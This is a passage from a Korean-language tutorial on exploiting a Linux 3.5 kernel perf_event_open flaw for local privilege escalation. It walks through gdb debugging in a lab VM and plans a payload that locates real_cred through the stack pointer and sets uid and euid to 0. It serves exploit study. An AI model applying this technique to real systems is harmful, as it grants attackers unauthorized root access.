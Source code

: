 	**(1)** 에서 `AB(x)` 매크로를 통해 설정한 더미 값을 실제 가젯으로 바꿔주는 부분이다.

가젯을 설정해주는 부분까지 확인했으니, 가젯 주소 설정을 자동화 해보자.
이번에는 [do: LPE()](#do-lpe) 에서 했던 방식과는 조금 다르게, `rsp` 레지스터가 가지고 있는 Stack 주소를 활용하여 [Privilege Escalation](#privilege-escalation) 의 그림에 설명되어 있던 `(r|e)sp & ~(THREAD_SIZE-1)` 연산을 통해 `thread_info` 구조체의 주소를 가져온 후, `task_struct`, `real_cred` 순으로 가져와 `real_cred` 구조체 내의 `uid` `euid` 값을 변경해 줄 것이다.

gdb를 통해 위 과정을 한번 진행해보고, 인라인 어셈블리를 PoC 코드에 넣어 `uid` `euid` 값을 `0`으로 설정하도록 자동화하자.

일단 `MasterVM`에서 gdb를 켠 후, `TestVM`에 attach한다.
PoC 코드의 `trigger` 함수에서 `298`번 syscall을 통해 취약점을 트리거링하므로 `sys_perf_event_open` 함수[^x64_syscall_table]에 bp를 건다.

```sh
root@master:~# gdb kernels/vmlinux-3.5.0-23-generic -q
Reading symbols from kernels/vmlinux-3.5.0-23-generic...done.
(gdb) target remote 192.168.94.1:8864
Remote debugging using 192.168.94.1:8864
native_safe_halt ()
    at /build/buildd/linux-lts-quantal-3.5.0/arch/x86/include/asm/irqflags.h:50
warning: Source file is more recent than executable.
50	}
(gdb) b * sys_perf_event_open
Breakpoint 1 at 0xffffffff811209d0: file /build/buildd/linux-lts-quantal-3.5.0/kernel/events/core.c, line 6198.
(gdb) c
Continuing.
```

이제 `TestVM`에서 `vnik` 바이너리를 실행하여 `trigger()`가 호출하는 `sys_perf_event_open()`에서 bp가 걸리는지 확인한다.

**TestVM**
```sh
test@ubuntu:~/exercises/perf$ ls
vnik  vnik_v1.c
test@ubuntu:~/exercises/perf$ ./vnik 2
IDT addr = 0xffffffff81dd6000
```

**MasterVM**
```sh
(gdb) c
Continuing.

Breakpoint 1, sys_perf_event_open (attr_uptr=0x7fff1febfbd0, pid=0,
    cpu=-1, group_fd=-1, flags=0)
    at /build/buildd/linux-lts-quantal-3.5.0/kernel/events/core.c:6198
warning: Source file is more recent than executable.
6198	{
(gdb)
```

bp가 정상적으로 걸렸으므로, `i r rsp` 명령을 통해 `rsp` 레지스터 값을 확인한다.

```sh
(gdb) i r rsp
rsp            0xffff88007814bf80	0xffff88007814bf80
(gdb)
```


[^x64_syscall_table]: <https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/>